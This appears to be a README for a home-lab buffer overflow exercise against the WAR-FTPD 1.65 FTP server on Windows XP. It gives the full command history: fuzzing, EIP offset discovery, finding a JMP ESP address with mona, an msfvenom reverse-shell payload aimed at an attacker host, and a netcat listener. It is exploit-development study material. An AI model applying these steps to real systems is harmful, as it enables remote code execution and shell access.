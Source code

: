 # Buffer overflow on FTP Server

## Requirements used

- [WAR-FTPD 1.65 (Vulnerable app)](https://mega.nz/file/TlJ3WKwD#iygtoFbCZMhVKLA6o1llXMz2-PJgohIu8GmInUXd7AI)
- [Immunity Debugger 1.85](https://mega.nz/file/W0oXwQhS#K-AbSqvedRNUsxc99SFpzcyrwpjiSbHurXuDofpGoDw)
- Windows XP SP3

- [Mona](https://github.com/corelan/mona)
- Kali Linux 2021

## History of commands on Bash

```bash
# Scan for open ports without ping and detect version
nmap -v -Pn -sV 192.168.0.11

# Script for test connection to FTP Server
python3 test-service.py

# Fuzzing when SLMail process is attached to Immunity Debugger
python3 fuzzing.py
# -- Access violation with 900 bytes

# Create a pattern for locate EIP register dump
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 900

# Run scsript with pattern
python3 crash-v1.py
# -- Access violation with EIP in 32714131

# Query offset in pattern that reach EIP
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 32714131
# -- match at offset 485

# Test if EIP is reached
python3 crash-v2.py
# -- Access violation with EIP in 04030201
# -- ESP register was filled with 'C' bytes

# Create a payload of shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.23 LPORT=9000 -b "\x00\x0d\x0a\x20\x40" -f python

# Run netcat and exploit in two terminals
nc -vnlp 9000
python3 exploit.py
```

## History on commands on Immunity Debugger

```bash
# Show infos about modules
!mona modules

# Find instruction JMP ESP (\xff\xe4) on module dll
!mona find -s "\xff\xe4" -m shell32.dll
# -- One of addresses is: 7C9D30D7
```

## References

- [Criando um exploit do zero by Ricardo Longatto](https://youtu.be/H2ZTTQX-ma4)
- [Bad char generator](https://github.com/cytopia/badchars)